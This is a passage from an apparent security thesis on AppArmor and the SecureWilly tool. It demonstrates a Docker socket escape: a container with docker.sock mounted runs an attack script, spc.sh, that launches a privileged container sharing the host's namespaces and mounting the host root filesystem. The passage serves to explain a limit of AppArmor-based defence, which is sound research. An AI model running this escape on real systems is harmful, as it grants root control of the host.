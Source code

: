 \begin{lstlisting}[style=dockercommands]
$ docker build . -t spc_example
$ docker run --rm -it --security-opt "apparmor=spc_attacker" -v /var/run/docker.sock:/var/run/docker.sock spc_example
\end{lstlisting}

The profile used in the docker run command is almost plain:

\begin{lstlisting}[style=Dockerfile, caption={AppArmor profile spc\_attacker}]
#include <tunables/global>

profile spc_attacker flags=(attach_disconnected,mediate_deleted) {
        file, #This rule is needed so that I can work with files (create files/directories, copy, etc)
        signal,
}
\end{lstlisting}

This is because the container is making use only of the docker.sock, thus no capabilities or other rules are needed. If we execute ls we get the following output: 

\begin{lstlisting}[style=dockercommands]
root@e4005f120782:/# ls -l /var/run/docker.sock
srw-rw---- 1 root 999 0 Jan 22 16:04 /var/run/docker.sock
\end{lstlisting}

This informs us about the owner's UID and GID of docker.sock, which is no other than root and docker group, respectively. The reason why we can only see the numeric id of docker group and not its name is that the command is run inside the container where the group does not exist and so only the GID - 999 - is known. We can also be informed about the owner's permissions on the socket which are read, write and secure deletion and since we are root we have everything we need for the attack. Therefore, the AppArmor profile is not in a position to allow anything more for the attack. Unfortunately, this also means that we cannot use SecureWilly to protect us from such an attack.

The attacking script that will be executed inside attacker's container is given below:

\begin{lstlisting}[style=shellscript, caption={spc.sh}]
#!/bin/sh

echo "====== Running privileged container ======"
docker run --rm -it --privileged --net=host --ipc=host --uts=host --pid=host -v /:/HostsFS ubuntu
\end{lstlisting}

